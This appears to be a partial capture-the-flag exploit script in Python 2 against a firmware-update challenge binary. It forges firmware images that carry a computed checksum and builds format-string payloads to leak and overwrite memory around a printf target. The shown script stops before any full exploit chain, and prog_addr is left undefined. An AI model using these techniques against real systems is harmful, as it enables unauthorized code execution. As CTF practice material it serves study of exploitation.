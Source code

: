 ```python
import interact
sh = interact.Process()

def u16(st):
	assert len(st) == 2
	return ord(st[0]) + (ord(st[1]) << 8)

def p16(num):
	return chr(num & 0xff) + chr((num >> 8) & 0xff)

def u64(st):
	return u16(st[0:2]) + (u16(st[2:4]) << 0x10) + (u16(st[4:6]) << 0x20) + (u16(st[6:8]) << 0x30)

def p64(num):
	return p16(num & 0xffff) + p16((num >> 0x10) & 0xffff) + p16((num >> 0x20) & 0xffff) + p16((num >> 0x30) & 0xffff)

def checksum(codes):
	codes_len = 1020
	assert len(codes) == codes_len
	acc = 0
	k = 2
	for i in xrange(0, codes_len, 2):
		acc = u16(codes[i:i+2]) ^ ((k + (((acc << 12) & 0xffff) | (acc >> 4))) & 0xffff)
		k += 1
	return acc

def make_fw(codes):
	codes = "19" + codes
	cs = checksum(codes)
	ret = "FW" + p16(cs) + codes
	assert len(ret) == 0x400
	return ret

def update(codes):
	sh.send("U\n")
	sh.send(make_fw(codes.ljust(1018,"\x00")))

def execute(payload = '', leak = False):
	sh.send("E".ljust(8,'\x00') + payload + "\n") #at 11$
	if leak:
		sh.readuntil("2019")
		return sh.readuntil("\x7f")

def status():
	sh.send("S\n")
	print sh.readuntil("ENRICHMENT MATERIAL: " + 'A' * 68)
	ret = sh.readuntil("\n")
	ret = ret[:len(ret)-1]
	return ret

def make_payload(st):
	ret = ""
	for c in st:
		ret += '2'
		ret += c
	return ret

def make_format(fmt):
	return make_payload("2019" + fmt + "A" * (64-len(fmt)) + p64(prog_addr + 0x900)) #printf

print sh.readuntil("- - - - - - - - - - - - - - - - - - - - \n")
print sh.readuntil("- - - - - - - - - - - - - - - - - - - - \n")
```